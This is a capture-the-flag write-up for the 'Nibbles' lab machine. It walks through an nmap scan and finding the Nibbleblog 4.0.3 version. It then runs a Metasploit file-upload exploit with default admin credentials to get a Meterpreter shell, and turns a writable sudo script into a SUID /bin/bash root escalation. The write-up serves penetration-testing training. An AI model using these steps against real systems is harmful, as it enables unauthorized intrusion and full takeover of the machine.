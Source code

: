 # Nibbles

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.85.144    
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-03 11:33 EDT
Nmap scan report for 10.129.85.144
Host is up (0.0093s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### NIbbleblog RCE

Visiting port 80 reveals nothing, until you read the comments:

```markup
$ curl http://10.129.85.144/                
<b>Hello world!</b>














<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

<figure><img src="../../../.gitbook/assets/image (170).png" alt=""><figcaption></figcaption></figure>

Based on the Nibbleblog Github Repo (which is no longer continued), I found that we can access `/README` to view the version used.

```
$ curl http://10.129.85.144/nibbleblog/README
====== Nibbleblog ======
Version: v4.0.3
Codename: Coffee
Release date: 2014-04-01
<TRUNCATED>
```

There are RCE exploits for this, and I'm going to use`msfconsole` to exploit it. In specific, I want to use the `multi/http/nibbleblog_file_upload` module.&#x20;

```
set RHOSTS <ip>
set LHOST <my ip>
set TARGETURI /nibbleblog
set USERNAME admin # default creds
set PASSWORD nibbles # default creds
exploit
```

This would spawn us a Meterpreter shell.

<figure><img src="../../../.gitbook/assets/image (202).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Writeable Sudo Script

We can check `sudo` privileges:

```
nibbler@Nibbles:/home/nibbler$ sudo -l
sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

There is no script there, so we can create our own that makes `/bin/bash` an SUID binary.

```
$ sudo /home/nibbler/personal/stuff/monitor.sh             
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1037528 May 16  2017 /bin/bash
```

Then, we can easily get `root`.&#x20;

<figure><img src="../../../.gitbook/assets/image (167).png" alt=""><figcaption></figcaption></figure>
